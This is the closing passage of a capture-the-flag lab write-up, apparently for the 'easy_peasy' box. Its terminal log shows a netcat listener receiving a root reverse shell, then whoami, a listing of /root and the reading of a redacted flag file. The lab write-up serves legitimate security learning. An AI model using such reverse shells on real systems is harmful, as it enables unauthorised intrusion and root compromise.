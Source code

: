 Shortly after we have a reverse shell with root access.

```bash
┌──(thelant3rn㉿Kali)-[~/CTFs/easy_peasy]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.18.4.213] from (UNKNOWN) [10.10.193.198] 47740
bash: cannot set terminal process group (2683): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# whoami
whoami
root
root@kral4-PC:/var/www# cd /root
cd /root
root@kral4-PC:~# ls -la
ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 Aug 29 10:35 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
root@kral4-PC:~# cat .root.txt  
cat .root.txt
flag{**********REDACTED************}
```

Looking around we find the hidden `.root.txt` flag.
- 2.8 What is the root flag?**✓**

Having found the root flag we have now completed the CTF :)
